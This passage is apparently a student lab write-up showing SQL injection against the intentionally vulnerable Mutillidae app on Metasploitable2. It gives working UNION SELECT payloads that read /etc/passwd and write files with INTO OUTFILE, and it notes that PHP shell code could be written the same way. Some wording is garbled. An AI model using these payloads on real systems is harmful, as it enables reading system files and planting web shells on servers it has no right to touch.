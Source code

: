 Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/6c3766e9-9dce-47b5-8063-d521c584bd95)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
